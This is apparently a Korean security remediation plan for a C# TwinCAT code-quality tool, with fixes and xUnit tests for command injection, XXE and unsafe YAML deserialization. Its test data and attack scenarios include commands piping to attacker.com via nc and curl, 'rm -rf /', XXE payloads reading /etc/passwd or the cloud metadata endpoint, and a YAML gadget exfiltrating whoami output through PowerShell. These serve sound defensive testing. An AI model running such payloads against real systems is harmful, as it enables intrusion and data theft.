        public void ExecuteProcessSafely_타임아웃초과_예외발생()
        {
            // Arrange
            var startInfo = CommandValidator.CreateSafeProcessStartInfo(
                "cmd.exe",
                "/c", "timeout", "10"  // 10초 대기 (타임아웃보다 김)
            );

            // Act & Assert
            Assert.Throws<TimeoutException>(() =>
                CommandValidator.ExecuteProcessSafely(startInfo, timeoutMs: 1000));
        }
    }
}
```

**파일**: `tests/TwinCatQA.Application.Tests/Services/GraphvizVisualizationServiceSecurityTests.cs`

```csharp
using System;
using System.IO;
using System.Threading.Tasks;
using Xunit;
using Microsoft.Extensions.Logging;
using Moq;
using TwinCatQA.Application.Services;
using TwinCatQA.Infrastructure.Security;

namespace TwinCatQA.Application.Tests.Services
{
    public class GraphvizVisualizationServiceSecurityTests
    {
        private readonly Mock<ILogger<GraphvizVisualizationService>> _loggerMock;
        private readonly GraphvizVisualizationService _service;
        private readonly string _testOutputDir;

        public GraphvizVisualizationServiceSecurityTests()
        {
            _loggerMock = new Mock<ILogger<GraphvizVisualizationService>>();
            _service = new GraphvizVisualizationService(_loggerMock.Object);

            _testOutputDir = Path.Combine(Path.GetTempPath(), $"GraphvizTest_{Guid.NewGuid()}");
            Directory.CreateDirectory(_testOutputDir);
        }

        [Fact]
        public async Task ConvertToSvgAsync_정상경로_성공()
        {
            // Arrange
            string dotContent = "digraph { A -> B; }";
            string outputPath = Path.Combine(_testOutputDir, "output.svg");

            // Act
            string? result = await _service.ConvertToSvgAsync(dotContent, outputPath);

            // Assert (Graphviz가 설치되지 않았을 수 있으므로 null 허용)
            if (_service.IsGraphvizInstalled())
            {
                Assert.NotNull(result);
                Assert.True(File.Exists(outputPath));
            }
        }

        [Theory]
        [InlineData("output.svg && rm -rf /")]
        [InlineData("output.svg | nc attacker.com 1234")]
        [InlineData("output.svg; cat /etc/passwd")]
        [InlineData("output.svg`whoami`")]
        [InlineData("output.svg$(id)")]
        public async Task ConvertToSvgAsync_명령어주입시도_예외발생(string maliciousPath)
        {
            // Arrange
            string dotContent = "digraph { A -> B; }";
            string outputPath = Path.Combine(_testOutputDir, maliciousPath);

            // Act & Assert
            await Assert.ThrowsAsync<SecurityException>(async () =>
                await _service.ConvertToSvgAsync(dotContent, outputPath));
        }

        [Theory]
        [InlineData("../../../etc/passwd.svg")]
        [InlineData("..\\..\\..\\windows\\system32\\config.svg")]
        public async Task ConvertToSvgAsync_경로순회시도_예외발생(string maliciousPath)
        {
            // Arrange
            string dotContent = "digraph { A -> B; }";

            // Act & Assert
            await Assert.ThrowsAsync<SecurityException>(async () =>
                await _service.ConvertToSvgAsync(dotContent, maliciousPath));
        }

        [Theory]
        [InlineData("output.exe")]
        [InlineData("output.bat")]
        [InlineData("output.sh")]
        [InlineData("output.ps1")]
        public async Task ConvertToSvgAsync_실행파일확장자_예외발생(string maliciousPath)
        {
            // Arrange
            string dotContent = "digraph { A -> B; }";
            string outputPath = Path.Combine(_testOutputDir, maliciousPath);

            // Act & Assert
            await Assert.ThrowsAsync<ArgumentException>(async () =>
                await _service.ConvertToSvgAsync(dotContent, outputPath));
        }
    }
}
```

---

### 검증 체크리스트

#### 코드 리뷰 체크리스트

- [ ] **ArgumentList 사용**: `ProcessStartInfo.Arguments` 대신 `ArgumentList` 사용
- [ ] **UseShellExecute = false**: 셸 사용 비활성화 확인
- [ ] **인자 검증**: 모든 사용자 입력이 `IsSafeArgument`로 검증됨
- [ ] **타임아웃 설정**: 무한 대기 방지
- [ ] **경로 검증**: 출력 경로가 `PathValidator`로 검증됨
- [ ] **확장자 화이트리스트**: `.svg`, `.png`, `.pdf` 만 허용
- [ ] **로깅**: 모든 명령어 실행이 로그에 기록됨

#### 테스트 커버리지 체크리스트

- [ ] **단위 테스트**: CommandValidator 100% 커버
- [ ] **통합 테스트**: GraphvizVisualizationService 주입 시나리오 커버
- [ ] **악의적 입력 테스트**: 10가지 이상의 명령어 주입 시나리오
- [ ] **플랫폼별 테스트**: Windows (cmd.exe), Unix (bash) 테스트

#### 수동 보안 테스트

```bash
# 1. 명령어 체이닝 시도
outputPath="output.svg && curl http://attacker.com/exfil"
# → SecurityException 발생해야 함

# 2. 백틱 명령 치환 시도
outputPath="output.svg\`whoami\`"
# → SecurityException 발생해야 함

# 3. 타임아웃 테스트
# 30초 이상 걸리는 대용량 DOT 파일
# → TimeoutException 발생해야 함
```

---

### 예상 소요 시간

| 작업 단계 | 예상 시간 | 담당자 역할 |
|----------|----------|-----------|
| CommandValidator 클래스 구현 | 2시간 | 백엔드 개발자 |
| GraphvizVisualizationService 수정 | 2시간 | 백엔드 개발자 |
| 단위 테스트 작성 (CommandValidator) | 2시간 | QA 엔지니어 |
| 단위 테스트 작성 (GraphvizService) | 2시간 | QA 엔지니어 |
| 코드 리뷰 | 1시간 | 시니어 개발자 |
| 수동 보안 테스트 | 1시간 | 보안 엔지니어 |
| 문서화 | 1시간 | 기술 작가 |
| **총 소요 시간** | **11시간** | **1.5일** |

---

## VULN-003: XXE (XML External Entity) 취약점 (High)

### 취약점 상세 정보

**파일**: `src/TwinCatQA.Infrastructure/Parsers/AntlrParserService.cs`
**라인**: 294 (`XDocument.Load` 호출)
**CWE**: CWE-611 (Improper Restriction of XML External Entity Reference)

#### 취약한 코드 (현재)

```csharp
// 라인 290-341
private string ExtractStructuredTextFromXml(string filePath)
{
    try
    {
        // ❌ 취약점: XDocument.Load가 기본적으로 외부 엔티티 해석을 허용
        var doc = XDocument.Load(filePath);
        // ↑ DTD 및 외부 엔티티 공격 가능

        var declarationElements = doc.Descendants("Declaration").ToList();
        // ...
    }
    catch (Exception ex)
    {
        throw new InvalidOperationException(
            $"XML 파일에서 ST 코드 추출 실패: {ex.Message}", ex);
    }
}
```

#### 공격 시나리오

악의적인 TwinCAT XML 파일 (malicious.TcPOU):

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<TcPlcObject>
  <POU Name="MaliciousPOU">
    <Declaration><![CDATA[
      VAR
        password: STRING := '&xxe;';  <!-- 외부 엔티티 주입 -->
      END_VAR
    ]]></Declaration>
  </POU>
</TcPlcObject>
```

또는 SSRF(Server-Side Request Forgery) 공격:

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://internal-server.local/admin">
]>
```

#### 비즈니스 영향

- **위험도**: High
- **영향 범위**: 서버 파일 시스템 + 내부 네트워크
- **악용 가능성**: 중간 (사용자가 XML 파일 업로드 시)
- **정보 유출 위험**: 매우 높음 (시스템 파일 읽기 가능)

---

### 수정 방안

#### 1단계: 안전한 XML 파서 유틸리티 추가

**파일**: `src/TwinCatQA.Infrastructure/Security/SafeXmlReader.cs` (신규 생성)

```csharp
using System;
using System.IO;
using System.Xml;
using System.Xml.Linq;

namespace TwinCatQA.Infrastructure.Security
{
    /// <summary>
    /// XXE 공격을 방지하는 안전한 XML 리더
    /// </summary>
    public static class SafeXmlReader
    {
        /// <summary>
        /// 안전한 XmlReaderSettings 생성 (XXE 방지)
        /// </summary>
        /// <returns>보안 강화된 XmlReaderSettings</returns>
        public static XmlReaderSettings CreateSecureSettings()
        {
            var settings = new XmlReaderSettings
            {
                // 1. DTD 처리 완전 비활성화 (가장 중요!)
                DtdProcessing = DtdProcessing.Prohibit,

                // 2. 외부 리소스 해석 비활성화
                XmlResolver = null,

                // 3. 스키마 검증 비활성화 (성능 향상 + 외부 스키마 차단)
                ValidationType = ValidationType.None,

                // 4. 최대 문자 제한 (DoS 방지)
                MaxCharactersInDocument = 10_000_000,  // 10MB
                MaxCharactersFromEntities = 1024,      // 엔티티 확장 제한

                // 5. 비동기 읽기 활성화
                Async = true,

                // 6. 공백 무시
                IgnoreWhitespace = true,
                IgnoreComments = true
            };

            return settings;
        }

        /// <summary>
        /// 파일에서 안전하게 XDocument 로드
        /// </summary>
        /// <param name="filePath">XML 파일 경로</param>
        /// <returns>XDocument 객체</returns>
        /// <exception cref="SecurityException">XXE 공격 시도 감지 시</exception>
        public static XDocument LoadXDocumentSafely(string filePath)
        {
            if (!File.Exists(filePath))
            {
                throw new FileNotFoundException($"파일을 찾을 수 없습니다: {filePath}");
            }

            try
            {
                using var fileStream = File.OpenRead(filePath);
                using var xmlReader = XmlReader.Create(fileStream, CreateSecureSettings());

                // XmlReader를 통해 안전하게 로드
                return XDocument.Load(xmlReader, LoadOptions.None);
            }
            catch (XmlException ex) when (ex.Message.Contains("DTD"))
            {
                throw new SecurityException(
                    "XML 파일에 DTD가 포함되어 있습니다. 보안상 허용되지 않습니다.", ex);
            }
            catch (XmlException ex)
            {
                throw new InvalidOperationException(
                    $"XML 파일 파싱 중 오류 발생: {ex.Message}", ex);
            }
        }

        /// <summary>
        /// 문자열에서 안전하게 XDocument 로드
        /// </summary>
        /// <param name="xmlContent">XML 문자열</param>
        /// <returns>XDocument 객체</returns>
        public static XDocument ParseXDocumentSafely(string xmlContent)
        {
            if (string.IsNullOrWhiteSpace(xmlContent))
            {
                throw new ArgumentNullException(nameof(xmlContent));
            }

            try
            {
                using var stringReader = new StringReader(xmlContent);
                using var xmlReader = XmlReader.Create(stringReader, CreateSecureSettings());

                return XDocument.Load(xmlReader, LoadOptions.None);
            }
            catch (XmlException ex) when (ex.Message.Contains("DTD"))
            {
                throw new SecurityException(
                    "XML 내용에 DTD가 포함되어 있습니다. 보안상 허용되지 않습니다.", ex);
            }
            catch (XmlException ex)
            {
                throw new InvalidOperationException(
                    $"XML 파싱 중 오류 발생: {ex.Message}", ex);
            }
        }

        /// <summary>
        /// XML 파일의 크기를 검증 (DoS 방지)
        /// </summary>
        /// <param name="filePath">XML 파일 경로</param>
        /// <param name="maxSizeBytes">최대 크기 (바이트)</param>
        /// <returns>검증 통과 시 true</returns>
        public static bool ValidateFileSize(string filePath, long maxSizeBytes = 10_000_000)
        {
            if (!File.Exists(filePath))
                return false;

            var fileInfo = new FileInfo(filePath);

            if (fileInfo.Length > maxSizeBytes)
            {
                throw new SecurityException(
                    $"XML 파일 크기가 너무 큽니다: {fileInfo.Length} bytes (최대: {maxSizeBytes} bytes)");
            }

            return true;
        }
    }
}
```

#### 2단계: AntlrParserService 수정

**파일**: `src/TwinCatQA.Infrastructure/Parsers/AntlrParserService.cs`

```csharp
using TwinCatQA.Infrastructure.Security; // 추가

public class AntlrParserService : IParserService
{
    // ✅ 수정된 ExtractStructuredTextFromXml 메서드
    private string ExtractStructuredTextFromXml(string filePath)
    {
        try
        {
            // 1. 파일 크기 검증 (10MB 제한)
            if (!SafeXmlReader.ValidateFileSize(filePath, maxSizeBytes: 10_000_000))
            {
                throw new InvalidOperationException("XML 파일 크기 검증 실패");
            }

            // 2. 안전한 XML 로드 (XXE 방지)
            XDocument doc;
            try
            {
                doc = SafeXmlReader.LoadXDocumentSafely(filePath);
            }
            catch (SecurityException ex)
            {
                // XXE 공격 시도 로깅
                throw new InvalidOperationException(
                    $"XML 파일에서 보안 위협이 감지되었습니다: {filePath}", ex);
            }

            var extractedParts = new List<string>();

            // 3. Declaration 섹션 추출
            var declarationElements = doc.Descendants("Declaration").ToList();
            if (declarationElements.Any())
            {
                var declarations = declarationElements
                    .Select(e => e.Value)
                    .Where(v => !string.IsNullOrWhiteSpace(v));
                extractedParts.AddRange(declarations);
            }

            // 4. Implementation/ST 섹션 추출
            var stElements = doc.Descendants("ST").ToList();
            if (stElements.Any())
            {
                var stCodes = stElements
                    .Select(e => e.Value)
                    .Where(v => !string.IsNullOrWhiteSpace(v));
                extractedParts.AddRange(stCodes);
            }

            // 5. 추출된 내용 반환
            if (extractedParts.Any())
            {
                return string.Join("\n\n", extractedParts);
            }

            return string.Empty;
        }
        catch (SecurityException)
        {
            // 보안 예외는 그대로 전파
            throw;
        }
        catch (Exception ex)
        {
            throw new InvalidOperationException(
                $"XML 파일에서 ST 코드 추출 실패: {ex.Message}", ex);
        }
    }
}
```

---

### 단위 테스트 전략

**파일**: `tests/TwinCatQA.Infrastructure.Tests/Security/SafeXmlReaderTests.cs`

```csharp
using System;
using System.IO;
using System.Xml;
using System.Xml.Linq;
using Xunit;
using TwinCatQA.Infrastructure.Security;

namespace TwinCatQA.Infrastructure.Tests.Security
{
    public class SafeXmlReaderTests : IDisposable
    {
        private readonly string _testDir;

        public SafeXmlReaderTests()
        {
            _testDir = Path.Combine(Path.GetTempPath(), $"XmlTest_{Guid.NewGuid()}");
            Directory.CreateDirectory(_testDir);
        }

        [Fact]
        public void LoadXDocumentSafely_정상XML_성공()
        {
            // Arrange
            string xmlContent = @"<?xml version=""1.0""?>
<TcPlcObject>
  <POU Name=""TestPOU"">
    <Declaration><![CDATA[PROGRAM TestProg]]></Declaration>
  </POU>
</TcPlcObject>";

            string xmlPath = Path.Combine(_testDir, "valid.xml");
            File.WriteAllText(xmlPath, xmlContent);

            // Act
            var doc = SafeXmlReader.LoadXDocumentSafely(xmlPath);

            // Assert
            Assert.NotNull(doc);
            Assert.NotNull(doc.Descendants("POU").FirstOrDefault());
        }

        [Fact]
        public void LoadXDocumentSafely_XXE공격시도_예외발생()
        {
            // Arrange
            string maliciousXml = @"<?xml version=""1.0""?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM ""file:///etc/passwd"">
]>
<TcPlcObject>
  <POU Name=""MaliciousPOU"">
    <Declaration>&xxe;</Declaration>
  </POU>
</TcPlcObject>";

            string xmlPath = Path.Combine(_testDir, "malicious.xml");
            File.WriteAllText(xmlPath, maliciousXml);

            // Act & Assert
            var ex = Assert.Throws<SecurityException>(() =>
                SafeXmlReader.LoadXDocumentSafely(xmlPath));

            Assert.Contains("DTD", ex.Message);
        }

        [Fact]
        public void LoadXDocumentSafely_외부엔티티참조_예외발생()
        {
            // Arrange
            string maliciousXml = @"<?xml version=""1.0""?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM ""http://attacker.com/evil.dtd"">
]>
<TcPlcObject>&xxe;</TcPlcObject>";

            string xmlPath = Path.Combine(_testDir, "external_entity.xml");
            File.WriteAllText(xmlPath, maliciousXml);

            // Act & Assert
            Assert.Throws<SecurityException>(() =>
                SafeXmlReader.LoadXDocumentSafely(xmlPath));
        }

        [Fact]
        public void LoadXDocumentSafely_거대한XML_예외발생()
        {
            // Arrange: 11MB XML 파일 생성
            string xmlPath = Path.Combine(_testDir, "huge.xml");
            using (var writer = File.CreateText(xmlPath))
            {
                writer.WriteLine("<?xml version=\"1.0\"?>");
                writer.WriteLine("<TcPlcObject>");

                // 10MB 이상의 데이터
                for (int i = 0; i < 1_000_000; i++)
                {
                    writer.WriteLine($"<Data>AAAAAAAAAAA</Data>");
                }

                writer.WriteLine("</TcPlcObject>");
            }

            // Act & Assert
            Assert.Throws<SecurityException>(() =>
                SafeXmlReader.ValidateFileSize(xmlPath, maxSizeBytes: 10_000_000));
        }

        [Fact]
        public void ParseXDocumentSafely_정상문자열_성공()
        {
            // Arrange
            string xmlContent = "<TcPlcObject><POU Name=\"Test\"/></TcPlcObject>";

            // Act
            var doc = SafeXmlReader.ParseXDocumentSafely(xmlContent);

            // Assert
            Assert.NotNull(doc);
            Assert.Equal("Test", doc.Descendants("POU").First().Attribute("Name")?.Value);
        }

        [Fact]
        public void ParseXDocumentSafely_엔티티폭탄_예외발생()
        {
            // Arrange: Billion Laughs Attack (XML Entity Expansion)
            string billionLaughs = @"<?xml version=""1.0""?>
<!DOCTYPE lolz [
  <!ENTITY lol ""lol"">
  <!ENTITY lol2 ""&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;"">
  <!ENTITY lol3 ""&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;"">
]>
<TcPlcObject>&lol3;</TcPlcObject>";

            // Act & Assert
            Assert.Throws<SecurityException>(() =>
                SafeXmlReader.ParseXDocumentSafely(billionLaughs));
        }

        public void Dispose()
        {
            if (Directory.Exists(_testDir))
            {
                Directory.Delete(_testDir, true);
            }
        }
    }
}
```

**파일**: `tests/TwinCatQA.Infrastructure.Tests/Parsers/AntlrParserServiceSecurityTests.cs`

```csharp
using System;
using System.IO;
using Xunit;
using TwinCatQA.Infrastructure.Parsers;
using TwinCatQA.Infrastructure.Security;

namespace TwinCatQA.Infrastructure.Tests.Parsers
{
    public class AntlrParserServiceSecurityTests : IDisposable
    {
        private readonly AntlrParserService _parser;
        private readonly string _testDir;

        public AntlrParserServiceSecurityTests()
        {
            _parser = new AntlrParserService();
            _testDir = Path.Combine(Path.GetTempPath(), $"ParserTest_{Guid.NewGuid()}");
            Directory.CreateDirectory(_testDir);
        }

        [Fact]
        public void ParseFile_정상TwinCATXML_성공()
        {
            // Arrange
            string validXml = @"<?xml version=""1.0""?>
<TcPlcObject>
  <POU Name=""FB_TestMotor"">
    <Declaration><![CDATA[
FUNCTION_BLOCK FB_TestMotor
VAR
    speed : REAL;
END_VAR
    ]]></Declaration>
    <Implementation>
      <ST><![CDATA[
speed := 100.0;
      ]]></ST>
    </Implementation>
  </POU>
</TcPlcObject>";

            string filePath = Path.Combine(_testDir, "valid.TcPOU");
            File.WriteAllText(filePath, validXml);

            // Act
            var syntaxTree = _parser.ParseFile(filePath);

            // Assert
            Assert.NotNull(syntaxTree);
            Assert.NotEmpty(syntaxTree.SourceCode);
            Assert.Contains("FB_TestMotor", syntaxTree.SourceCode);
        }

        [Fact]
        public void ParseFile_XXE공격XML_예외발생()
        {
            // Arrange
            string maliciousXml = @"<?xml version=""1.0""?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM ""file:///etc/passwd"">
]>
<TcPlcObject>
  <POU Name=""MaliciousPOU"">
    <Declaration>&xxe;</Declaration>
  </POU>
</TcPlcObject>";

            string filePath = Path.Combine(_testDir, "malicious.TcPOU");
            File.WriteAllText(filePath, maliciousXml);

            // Act & Assert
            var ex = Assert.Throws<InvalidOperationException>(() =>
                _parser.ParseFile(filePath));

            Assert.Contains("보안 위협", ex.Message);
        }

        [Fact]
        public void ParseFile_거대한XML_예외발생()
        {
            // Arrange: 11MB XML 파일
            string filePath = Path.Combine(_testDir, "huge.TcPOU");
            using (var writer = File.CreateText(filePath))
            {
                writer.WriteLine("<?xml version=\"1.0\"?>");
                writer.WriteLine("<TcPlcObject><POU Name=\"Huge\">");
                writer.WriteLine("<Declaration><![CDATA[");

                for (int i = 0; i < 1_000_000; i++)
                {
                    writer.WriteLine("VAR data" + i + " : STRING; END_VAR");
                }

                writer.WriteLine("]]></Declaration></POU></TcPlcObject>");
            }

            // Act & Assert
            Assert.Throws<InvalidOperationException>(() =>
                _parser.ParseFile(filePath));
        }

        public void Dispose()
        {
            if (Directory.Exists(_testDir))
            {
                Directory.Delete(_testDir, true);
            }
        }
    }
}
```

---

### 검증 체크리스트

#### 코드 리뷰 체크리스트

- [ ] **DtdProcessing.Prohibit**: DTD 처리 완전 비활성화
- [ ] **XmlResolver = null**: 외부 리소스 해석 차단
- [ ] **파일 크기 제한**: 10MB 이하로 제한
- [ ] **엔티티 확장 제한**: `MaxCharactersFromEntities = 1024`
- [ ] **직접 XDocument.Load 사용 금지**: `SafeXmlReader` 사용 강제
- [ ] **보안 예외 로깅**: XXE 시도가 로그에 기록됨

#### 테스트 커버리지 체크리스트

- [ ] **단위 테스트**: SafeXmlReader 100% 커버
- [ ] **XXE 공격 테스트**: 파일 읽기, SSRF, DTD 주입
- [ ] **Billion Laughs 테스트**: 엔티티 폭탄 공격 차단
- [ ] **DoS 테스트**: 거대한 XML 파일 처리
- [ ] **정상 XML 테스트**: TwinCAT 표준 포맷 파싱

#### 수동 보안 테스트

```bash
# 1. XXE 공격 테스트
cat > malicious.TcPOU << 'EOF'
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<TcPlcObject>&xxe;</TcPlcObject>
EOF

dotnet test --filter "XXE공격XML_예외발생"

# 2. SSRF 공격 테스트
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">
]>
# → 외부 HTTP 요청이 차단되어야 함

# 3. Billion Laughs 테스트
# 엔티티 확장이 1024자로 제한되어야 함
```

---

### 예상 소요 시간

| 작업 단계 | 예상 시간 | 담당자 역할 |
|----------|----------|-----------|
| SafeXmlReader 클래스 구현 | 2시간 | 백엔드 개발자 |
| AntlrParserService 수정 | 1시간 | 백엔드 개발자 |
| 단위 테스트 작성 (SafeXmlReader) | 2시간 | QA 엔지니어 |
| 단위 테스트 작성 (AntlrParser) | 2시간 | QA 엔지니어 |
| 코드 리뷰 | 1시간 | 시니어 개발자 |
| 수동 보안 테스트 | 1시간 | 보안 엔지니어 |
| 문서화 | 1시간 | 기술 작가 |
| **총 소요 시간** | **10시간** | **1.5일** |

---

## VULN-004: 안전하지 않은 역직렬화 (High)

### 취약점 상세 정보

**파일**: `src/TwinCatQA.Application/Configuration/ConfigurationService.cs`
**라인**: 74 (`Deserialize<QualitySettings>` 호출)
**CWE**: CWE-502 (Deserialization of Untrusted Data)

#### 취약한 코드 (현재)

```csharp
// 라인 68-84
public QualitySettings LoadSettings(string projectPath)
{
    try
    {
        var yamlContent = File.ReadAllText(settingsFilePath);

        // ❌ 취약점: YamlDotNet이 임의 타입을 역직렬화 가능
        var settings = _deserializer.Deserialize<QualitySettings>(yamlContent);
        // ↑ 악의적인 YAML로 임의 객체 생성 가능

        if (settings == null)
        {
            return GetDefaultSettings();
        }

        return MergeWithDefaults(settings);
    }
    catch (YamlDotNet.Core.YamlException ex)
    {
        throw new ConfigurationException(
            $"YAML 파일 파싱 중 오류가 발생했습니다: {settingsFilePath}", ex);
    }
}
```

#### 공격 시나리오

악의적인 YAML 파일 (settings.yml):

```yaml
# YamlDotNet의 Type Tag를 악용한 공격
global: !System.Diagnostics.Process
  StartInfo:
    FileName: cmd.exe
    Arguments: /c calc.exe
    UseShellExecute: true

# 또는 ObjectDataProvider를 이용한 공격 (WPF 환경)
rules: !System.Windows.Data.ObjectDataProvider
  MethodName: Start
  ObjectInstance: !System.Diagnostics.Process
    StartInfo:
      FileName: powershell.exe
      Arguments: -Command "Invoke-WebRequest http://attacker.com/exfil?data=$(whoami)"
```

#### 비즈니스 영향

- **위험도**: High
- **영향 범위**: 애플리케이션 전체 + 호스트 시스템
- **악용 가능성**: 중간 (사용자가 설정 파일 수정 시)
- **RCE 가능성**: 높음

---

### 수정 방안

#### 1단계: 안전한 YAML 역직렬화 설정

**파일**: `src/TwinCatQA.Application/Configuration/ConfigurationService.cs`

```csharp
using System;
using System.Collections.Generic;
using System.IO;
using System.Linq;
using YamlDotNet.Serialization;
using YamlDotNet.Serialization.NamingConventions;

namespace TwinCatQA.Application.Configuration
{
    /// <summary>
    /// 설정 파일 로드 및 저장을 담당하는 서비스 클래스 (보안 강화)
    /// </summary>
    public class ConfigurationService
    {
        private readonly IDeserializer _deserializer;
        private readonly ISerializer _serializer;

        /// <summary>
        /// ConfigurationService 생성자 (보안 강화)
        /// </summary>
        public ConfigurationService()
        {
            // ✅ 보안 강화: 타입 태그 허용 안 함 + 화이트리스트 적용
            _deserializer = new DeserializerBuilder()
                .WithNamingConvention(CamelCaseNamingConvention.Instance)
                .IgnoreUnmatchedProperties()

                // 1. 타입 태그 비활성화 (가장 중요!)
                .WithoutTypeTagging()

                // 2. 허용된 타입만 역직렬화 (화이트리스트)
                .WithTypeConverter(new SafeTypeConverter())

                // 3. 최대 깊이 제한 (DoS 방지)
                .WithMaximumRecursion(10)

                .Build();

            // 직렬화는 안전 (출력만)
            _serializer = new SerializerBuilder()
                .WithNamingConvention(CamelCaseNamingConvention.Instance)
                .ConfigureDefaultValuesHandling(DefaultValuesHandling.OmitDefaults)
                .Build();
        }

        /// <summary>
        /// 프로젝트 경로에서 설정 파일을 로드합니다 (보안 강화)
        /// </summary>
        public QualitySettings LoadSettings(string projectPath)
        {
            if (string.IsNullOrWhiteSpace(projectPath))
            {
                throw new ArgumentNullException(nameof(projectPath),
                    "프로젝트 경로가 null이거나 비어있습니다.");
            }

            var settingsFilePath = GetSettingsFilePath(projectPath);

            // 1. 설정 파일이 없으면 기본 설정 반환
            if (!File.Exists(settingsFilePath))
            {
                return GetDefaultSettings();
            }

            try
            {
                // 2. 파일 크기 검증 (1MB 제한)
                var fileInfo = new FileInfo(settingsFilePath);
                if (fileInfo.Length > 1_000_000)
                {
                    throw new ConfigurationException(
                        $"설정 파일 크기가 너무 큽니다: {fileInfo.Length} bytes (최대: 1MB)");
                }

                // 3. YAML 파일 읽기
                var yamlContent = File.ReadAllText(settingsFilePath);

                // 4. 위험한 패턴 검증
                ValidateYamlContent(yamlContent);

                // 5. 안전하게 역직렬화
                QualitySettings? settings;
                try
                {
                    settings = _deserializer.Deserialize<QualitySettings>(yamlContent);
                }
                catch (YamlDotNet.Core.YamlException ex) when (
                    ex.Message.Contains("type") ||
                    ex.Message.Contains("tag"))
                {
                    throw new ConfigurationException(
                        "설정 파일에 허용되지 않은 타입 참조가 있습니다. " +
                        "보안상 타입 태그는 지원하지 않습니다.", ex);
                }

                // 6. null인 경우 기본값 반환
                if (settings == null)
                {
                    return GetDefaultSettings();
                }

                // 7. 역직렬화 후 추가 검증
                ValidateSettings(settings);

                // 8. 부분 설정을 기본값과 병합
                return MergeWithDefaults(settings);
            }
            catch (YamlDotNet.Core.YamlException ex)
            {
                throw new ConfigurationException(
                    $"YAML 파일 파싱 중 오류가 발생했습니다: {settingsFilePath}", ex);
            }
            catch (IOException ex)
            {
                throw new ConfigurationException(
                    $"설정 파일 읽기 중 오류가 발생했습니다: {settingsFilePath}", ex);
            }
            catch (Exception ex)
            {
                throw new ConfigurationException(
                    $"설정 파일 로드 중 예기치 않은 오류가 발생했습니다: {settingsFilePath}", ex);
            }
        }

        /// <summary>
        /// YAML 내용에서 위험한 패턴을 검증
        /// </summary>
        private void ValidateYamlContent(string yamlContent)
        {
            // 위험한 YAML 패턴
            string[] dangerousPatterns = new[]
            {
                "!!",                          // 타입 태그
                "!System.",                    // .NET 타입
                "!System",                     // .NET 타입 (점 없음)
                "ObjectDataProvider",          // WPF 공격 벡터
                "Process",                     // 프로세스 실행
                "Assembly",                    // 어셈블리 로드
                "Activator",                   // 동적 객체 생성
                "Type.GetType",                // 타입 동적 로드
                "<<:",                         // YAML 병합 키 (복잡한 공격)
            };

            foreach (var pattern in dangerousPatterns)
            {
                if (yamlContent.Contains(pattern, StringComparison.OrdinalIgnoreCase))
                {
                    throw new ConfigurationException(
                        $"설정 파일에 허용되지 않은 패턴이 발견되었습니다: '{pattern}'");
                }
            }
        }

        /// <summary>
        /// 역직렬화된 설정 객체 검증
        /// </summary>
        private void ValidateSettings(QualitySettings settings)
        {
            // 1. 필수 설정 검증
            if (settings.Global == null)
            {
                throw new ConfigurationException("Global 설정이 누락되었습니다.");
            }

            // 2. 범위 검증
            if (settings.Global.MaxDegreeOfParallelism < 1 ||
                settings.Global.MaxDegreeOfParallelism > 64)
            {
                throw new ConfigurationException(
                    "MaxDegreeOfParallelism은 1에서 64 사이여야 합니다.");
            }

            if (settings.Global.TimeoutSeconds < 1 ||
                settings.Global.TimeoutSeconds > 3600)
            {
                throw new ConfigurationException(
                    "TimeoutSeconds는 1에서 3600 사이여야 합니다.");
            }

            // 3. 경로 검증 (보안)
            if (settings.Reports?.OutputPath != null)
            {
                // 절대 경로 거부 (프로젝트 내부만 허용)
                if (Path.IsPathRooted(settings.Reports.OutputPath))
                {
                    throw new ConfigurationException(
                        "Reports.OutputPath는 상대 경로만 허용됩니다.");
                }

                // 상위 디렉토리 접근 거부
                if (settings.Reports.OutputPath.Contains(".."))
                {
                    throw new ConfigurationException(
                        "Reports.OutputPath에 '..'는 허용되지 않습니다.");
                }
            }

            // 4. 규칙 설정 검증
            if (settings.Rules?.Configurations != null)
            {
                foreach (var (ruleId, config) in settings.Rules.Configurations)
                {
                    // 규칙 ID 형식 검증 (영문, 숫자, 하이픈만)
                    if (!System.Text.RegularExpressions.Regex.IsMatch(
                        ruleId, @"^[A-Z0-9\-]+$"))
                    {
                        throw new ConfigurationException(
                            $"잘못된 규칙 ID 형식: {ruleId}");
                    }

                    // 매개변수 타입 검증
                    if (config.Parameters != null)
                    {
                        foreach (var (key, value) in config.Parameters)
                        {
                            // 허용된 타입만
                            if (value != null &&
                                !(value is string || value is int || value is double ||
                                  value is bool || value is decimal))
                            {
                                throw new ConfigurationException(
                                    $"규칙 매개변수는 기본 타입만 허용됩니다: {key}");
                            }
                        }
                    }
                }
            }
        }

        // 나머지 메서드는 동일...
    }

    /// <summary>
    /// 안전한 타입 변환기 (화이트리스트 기반)
    /// </summary>
    internal class SafeTypeConverter : IYamlTypeConverter
    {
        private static readonly HashSet<Type> AllowedTypes = new()
        {
            typeof(string),
            typeof(int),
            typeof(long),
            typeof(double),
            typeof(decimal),
            typeof(bool),
            typeof(DateTime),

            // 프로젝트 타입만 허용
            typeof(QualitySettings),
            typeof(GlobalSettings),
            typeof(RuleSettings),
            typeof(RuleConfiguration),
            typeof(ReportSettings),
            typeof(GitSettings),
            typeof(ValidationMode),
            typeof(ViolationSeverity),
        };

        public bool Accepts(Type type)
        {
            // 허용된 타입만 변환
            return AllowedTypes.Contains(type) ||
                   type.IsEnum ||
                   type.IsValueType;
        }

        public object? ReadYaml(IParser parser, Type type)
        {
            // 기본 역직렬화 사용
            throw new NotImplementedException(
                "이 변환기는 검증용입니다. 실제 변환은 YamlDotNet이 처리합니다.");
        }

        public void WriteYaml(IEmitter emitter, object? value, Type type)
        {
            // 직렬화는 사용 안 함
            throw new NotImplementedException();
        }
    }
}
```

#### 2단계: 추가 보안 계층 - 스키마 검증

**파일**: `src/TwinCatQA.Application/Configuration/YamlSchemaValidator.cs` (신규 생성)

```csharp
using System;
